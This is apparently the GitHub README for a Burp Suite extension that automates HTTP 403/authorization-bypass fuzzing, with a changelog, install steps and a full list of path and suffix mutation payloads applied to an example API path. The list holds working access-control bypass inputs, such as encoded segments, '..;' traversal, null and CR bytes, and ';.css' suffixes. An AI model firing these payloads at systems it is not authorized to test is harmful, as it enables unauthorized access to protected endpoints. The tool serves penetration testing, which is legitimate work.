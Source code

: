 # AutoBypass403-BurpSuite
一个自动化bypass 403/auth的Burpsuite插件

申明：该工具只用于安全自测，禁止用于非法用途

## ChangeLog
#### 2022-07-16

* 修改扫描规则,每一级目录都进行FUZZ,扫描规则如下:

#### 2022-02-08

* 增加title展示,但是存在乱码的bug,后续解决
* 增加规则

#### 2022-06-28

* 修改fuzz逻辑,对每一级路径进行全覆盖

#### 2021-12-05

* 支持多选发送到插件
* 增加多个规则 @Laura_小狮子
* 增加请求数量、结束数量的展示
* 增加相似度匹配(from @pmiaowu HostCollision); 如果返回结果相似度很高，则不展示

#### 2021-12-04

* 增加多线程

#### 2021-12-02 

- 第一次发布

## How to Run ##

1. 下载 Bypass.jar

2. Burpsuite Extender add Bypass.jar

   ![image-20211204120709887](README_picture/image-20211204120709887.png)

   

3. 选择目标请求, 右键点击 "send to bypass 403"

   ![image-20211202221317291](README_picture/image-20211202221317291.png)

4. 选择Bypass 403 table，查看结果

   ![image-20211205121741248](README_picture/image-20211205121741248.png)

5. fuzz规则如下:

```
/web/api/presaleConfig/list

路径FUZZ:

/%77%65%62/api/presaleConfig/list
/web;/api/presaleConfig/list
/images/..;/web/api/presaleConfig/list
/images;/../web/api/presaleConfig/list
/%2e/web/api/presaleConfig/list
/;/web/api/presaleConfig/list
/./web/api/presaleConfig/list
//web/api/presaleConfig/list
/web%20/api/presaleConfig/list
/web%09/api/presaleConfig/list
/.;/web/api/presaleConfig/list
/..%00/web/api/presaleConfig/list
/..%0d/web/api/presaleConfig/list
/..%5c/web/api/presaleConfig/list
/#/../web/api/presaleConfig/list

/web/%61%70%69/presaleConfig/list
/web/api;/presaleConfig/list
/web/images/..;/api/presaleConfig/list
/web/images;/../api/presaleConfig/list
/web/%2e/api/presaleConfig/list
/web/;/api/presaleConfig/list
/web/./api/presaleConfig/list
/web//api/presaleConfig/list
/web/./api/presaleConfig/list
/web/api%20/presaleConfig/list
/web/api%09/presaleConfig/list
/web/.;/api/presaleConfig/list
/web/..%00/api/presaleConfig/list
/web/..%0d/api/presaleConfig/list
/web/..%5c/api/presaleConfig/list
/web/#/../api/presaleConfig/list

后缀FUZZ:
/web/api/presaleConfig/list.js
/web/api/presaleConfig/list.css
/web/api/presaleConfig/list.json
/web/api/presaleConfig/list.html
/web/api/presaleConfig/list;.css
/web/api/presaleConfig/list;.js
/web/api/presaleConfig/list/.
/web/api/presaleConfig/list/
/web/api/presaleConfig/list/./
/web/api/presaleConfig/list%20
/web/api/presaleConfig/list%09
/web/api/presaleConfig/list?
/web/api/presaleConfig/list?error
/web/api/presaleConfig/list#
/web/api/presaleConfig/list/*
/web/api/presaleConfig/list%26
```



## Thanks

*  https://github.com/iamj0ker/bypass-403
